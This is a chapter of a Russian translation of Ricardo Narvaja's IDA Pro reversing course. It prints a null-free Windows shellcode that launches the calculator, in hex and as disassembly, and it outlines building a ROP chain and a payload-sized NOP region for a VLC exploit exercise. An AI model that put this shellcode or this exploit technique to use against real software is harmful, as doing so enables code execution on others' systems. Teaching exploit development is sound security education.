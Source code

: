 # Часть 40

[\[Используемые материалы\]](.gitbook/assets/files/40.zip)

**УНИВЕРСАЛЬНЫЙ ШЕЛЛКОД**

Существует тысячи типов шеллкодов. Каждый из них разработан в соответствии с целью, которую мы должны эксплуатировать.

Существую шеллкоды, которые используются для доказательства того, что вы можете запустить код после эксплуатации. Обычно они запускают калькулятор и ничего больше.

Очевидно, что существуют более сложные шеллкоды, которые открывают удаленные консоли, стараются остаться в системе не смотря на то, что эксплуатируемая программа перестает работать или закрывается, инжектируют себя в некоторый другой процесс системы, сохраняет себя как файл и т.д.

Существует библиотека шеллкодов, которую мы можем найти в **GOOGLE** или запрограммировать, если нам нужно что-то особенное.

С этого момента мы будем использовать **УНИВЕРСАЛЬНЫЙ ШЕЛЛКОД**, который работает для всех версией **WINDOWS** и запускает калькулятор. При этом мы продемонстрируем выполнение кода.

Я нашел его здесь:

[https://packetstormsecurity.com/fil...-Null-Free-CreateProcessA-Calc-Shellcode.html](https://packetstormsecurity.com/files/102847/All-Windows-Null-Free-CreateProcessA-Calc-Shellcode.html)

>shellcode=**"\x31\xdb\x64\x8b\x7b\x30\x8b\x7f\x0c\x8b\x7f\x1c\x8b\x47\x08\x8b\x77\x20\x8b\x3f\x80\x7e\x0c\x33\x75\xf2\x89\xc7\x03\x78\x3c\x8b"\x57\x78\x01\xc2\x8b\x7a\x20\x01\xc7\x89\xdd\x8b\x34\xaf\x01\xc6\x45\x81\x3e\x43\x72\x65\x61\x75\xf2\x81\x7e\x08\x6f\x63\x65\x73\x75\xe9\x8b\x7a\x24\x01\xc7\x66\x8b\x2c\x6f\x8b\x7a\x1c\x01\xc7\x8b\x7c\xaf\xfc\x01\xc7\x89\xd9\xb1\xff\x53\xe2\xfd\x68\x63\x61\x6c\x63\x89\xe2\x52\x52\x53\x53\x53\x53\x53\x53\x52\x53\xff\xd7"**

Я могу использовать его в скрипте **PYTHON** точно так же, если у меня есть место для его добавления.

Сами байты эксплоита такие:

`31 db 64 8b 7b 30 8b 7f 0c 8b 7f 1c 8b 47 08 8b 77 20 8b 3f 80 7e 0c 33 75 f2 89 c7 03 78 3c 8b" 57 78 01 c2 8b 7a 20 01 c7 89 dd 8b 34 af 01 c6 45 81 3e 43 72 65 61 75 f2 81 7e 08 6f 63 65 73 75 e9 8b 7a 24 01 c7 66 8b 2c 6f 8b 7a 1c 01 c7 8b 7c af fc 01 c7 89 d9 b1 ff 53 e2 fd 68 63 61 6c 63 89 e2 52 52 53 53 53 53 53 53 52 53 ff d7`

```assembly
MOV EDI,DWORD PTR FS:[EBX+30]
XOR EBX,EBX
MOV EDI,DWORD PTR DS:[EDI+C]
MOV EDI,DWORD PTR DS:[EDI+1C]
MOV EAX,DWORD PTR DS:[EDI+8]
MOV ESI,DWORD PTR DS:[EDI+20]
MOV EDI,DWORD PTR DS:[EDI]
CMP BYTE PTR DS:[ESI+C],33
JNZ SHORT CANARY_c.00A7138A
MOV EDI,EAX
ADD EDI,DWORD PTR DS:[EAX+3C]
MOV EDX,DWORD PTR DS:[EDI+78]
ADD EDX,EAX
MOV EDI,DWORD PTR DS:[EDX+20]
ADD EDI,EAX
MOV EBP,EBX
MOV ESI,DWORD PTR DS:[EDI+EBP*4]
ADD ESI,EAX
INC EBP
CMP DWORD PTR DS:[ESI],61657243
JNZ SHORT CANARY_c.00A713A9
CMP DWORD PTR DS:[ESI+8],7365636F
JNZ SHORT CANARY_c.00A713A9
MOV EDI,DWORD PTR DS:[EDX+24]
ADD EDI,EAX
MOV BP,WORD PTR DS:[EDI+EBP*2]
MOV EDI,DWORD PTR DS:[EDX+1C]
ADD EDI,EAX
MOV EDI,DWORD PTR DS:[EDI+EBP*4-4]
ADD EDI,EAX
MOV ECX,EBX
MOV CL,0FF
PUSH EBX
LOOPD SHORT CANARY_c.00A713D8
PUSH 636C6163
MOV EDX,ESP
PUSH EDX
PUSH EDX
PUSH EBX
PUSH EBX
PUSH EBX
PUSH EBX
PUSH EBX
PUSH EBX
PUSH EDX
PUSH EBX
CALL EDI
```

Эти байты запускают калькулятор везде где мы их вставляем. Хорошо, что у этих байтов нет нулей. Хотя могут быть программы, который отвергают какой-то конкретный символ отличный от нуля. Это будет зависеть от случая.

Мы уже знаем, как сделать **ROP** и у нас уже есть универсальный шеллкод. Основной смысл состоит в том, чтобы практиковаться с программой **VLC**, для которой мы уже сделали **POC**. Я был бы очень рад, если бы кто-то отправил мне полный файл и туториал, объясняющий то, что Вы сделали. Я бы добавил бы первого человека, который отправил бы мне хорошо объясняющий туториал в качестве приложения в одной из глав.

**ROP** может быть сделан вручную или с помощью **MONA**. Для нас нет никаких проблем. Вы должны найти модуль **DLL** без защиты **ASLR** и если таких больше чем один, **MONA** может использовать больше одной **DLL** в качестве аргумента, для объединения **ROP** объединяющей обе **DLL**.

Что касается же скрипта **PYTHON**, то я дам вам его схему. Как только вы создадите **ROP**, откройте файл **POC.TY+**

![](.gitbook/assets/40/01.png)

И ищите числа **41424344**, которые перезаписывают **АДРЕС ВОЗВРАТА**.

![](.gitbook/assets/40/02.png)

И здесь, в зависимости от размера **ROP** + **ШЕЛЛКОДА**,  скажем, что в качестве примера, **ROP** и **ШЕЛЛКОД** имеет длину **150** байтов. Я заменяю область по чуть-чуть начиная со значения **41424344**включительно. Предположим что это **160** байтов.

Я помечаю вниз, пока не получу отмеченную область требуемой длины.

![](.gitbook/assets/40/03.png)

Я заполняю выбранную область с помощью байта **90**.

![](.gitbook/assets/40/04.png)

Хорошо, проверьте размер области, где находятся байты **90**, которая больше чем размер **ROP** + **ШЕЛЛКОД**. Я записываю полученный размер. В моём случае он равен **160** байт.

![](.gitbook/assets/40/05.png)

Теперь у нас есть схема работы скрипта. Скрипт ещё не протестирован. Скрипт не работает. Мы не определили **ROP** или **ШЕЛЛКОД**. Вы можете использовать **УНИВЕРСАЛЬНЫЙ ШЕЛЛКОД**, который мы только что видели, если у вас нет проблем с каким-либо символом. Если это не так, вы должны найти другой шеллкод.

Основная идея состоит в том, что скрипт открывает файл заполненный байтами **90**, заменяет их полезной нагрузкой того же размера, которая содержит начало **ROP**,  **ШЕЛЛКОД** и дополнительные данные или заполнение. Затем скрипт сохраняет файл, чтобы проверить его работоспособность. Если файл заработает, то это будет считаться эксплоитом. А если нет заработает, нам нужно трассировать, чтобы увидеть почему так получилось.

Я был бы очень рад, если бы кто-то написал туториал и отправил мне рабочий эксплоит.Я бы увидел, что я зря не тратил время на написание туториалов.

Первый человек, который отправит мне туториал, будет добавлен в наш курс как победитель. Если людей будет больше одного, я загружу решению их в папку **SOLUCIONES** нашего курса, которую я создам для этого на своев Веб-Сервере, если это потребуется.

До следующей части **41**. Практикуйте и находите решение.

* * *

Автор оригинального текста — Рикардо Нарваха.

Перевод и адаптация на английский  язык — IvinsonCLS.

Перевод и адаптация на русский язык — Яша Яшечкин.

Перевод специально для форума системного и низкоуровневого программирования - WASM.IN

11.04.2018

[**Источник: ricardonarvaja.info**](http://ricardonarvaja.info/WEB/IDA%20DESDE%20CERO/CURSO%20DE%20IDA%20TUTES/40-INTRODUCCION%20AL%20REVERSING%20CON%20IDA%20PRO%20DESDE%20CERO.docx)
